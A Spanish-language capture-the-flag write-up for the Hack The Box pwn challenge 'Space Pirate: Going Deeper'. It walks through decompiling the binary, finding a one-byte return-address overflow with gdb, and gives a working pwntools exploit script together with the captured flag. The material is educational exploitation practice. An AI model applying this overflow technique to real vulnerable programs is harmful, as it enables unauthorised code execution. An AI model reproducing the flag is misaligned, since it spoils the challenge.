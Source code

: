 ```yaml
---
layout: post
title: Space Pirate Going Deeper HTB
comments: true
categories: [Pwn, Writeups, HTB]
---
```


# Overview

Este es un reto sencillo de la plataforma [Hack the Box](https://app.hackthebox.com/challenges/Space%2520pirate%253A%2520Going%2520Deeper), comparte título con otros dos que subiré proximamente. Espero que os sirva para aprender!

![Image]({{ site.baseurl }}/images/posts/htb-logo.png)

# Reconocimiento

Se nos da un binario con arquitectura `x86_64`, con las siguientes protecciones:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
```

Con *ghidra* descompilamos para analizar el código fuente:

```c
int main(void){
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Vemos que se llama a una función `admin_panel`, donde apreciamos una vulnerabilidad de tipo *Buffer Overflow*:

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char input_str [40];
  long input_num;
  
  input_num = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n",param_1,param_2,param_3);
  
  while (((input_num != 1 && (input_num != 2)) && (input_num != 3))) {
    printf(&DAT_004014e8);
    input_num = read_num();
  }
  if (input_num == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (input_num != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  
  read(0,input_str,0x39);   //Vulnerable a Buffer Overflow (40 <- 57)

  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",input_str,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Con esto, podemos tratar de buscar el offset hasta el *RIP*, para saltarnos la verificación y ejecutar directamente la línea que imprime la flag.

Ejecutamos con *gdb-peda*:

```bash
[...]
[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 2

[*] Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Sin embargo, no parece que estemos sobrescribiendo *RIP*, ni *RBP*:

```bash
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b41
```

Vamos a probar con otra letra:

```bash
[...]
[*] Username: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

Y vemos que *RIP* varía un byte:

```bash
RBP: 0x4242424242424242 ('BBBBBBBB')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b42
```

Por lo que tenemos un **overflow de un sólo byte**, que es más que suficiente como para llegar a donde queremos (`0x400b01`):

![Image]({{ site.baseurl }}/images/posts/2024-11-06-Space-Pirate-Going-Deeper-HTB.png)

# Explotación

Para resolver el reto sólo nos faltaría mandar una cadena de `\x01` lo suficientemente larga, para ello lo haremos mediante un script en *python* utilizando la librería *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./sp_going_deeper')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("94.237.51.112",50014)
    else:
        return process('./sp_going_deeper')

io = start()

io.sendlineafter(">>", b"1")

payload = 57 * b'\x01'

io.sendlineafter("Input:", payload)

io.interactive()
```

Lo ejecutamos en remoto y tenemos la flag!

```bash
[+] Welcome admin! The secret message is: HTB{d1g_1n51d3..u_Cry_cry_cry}
```
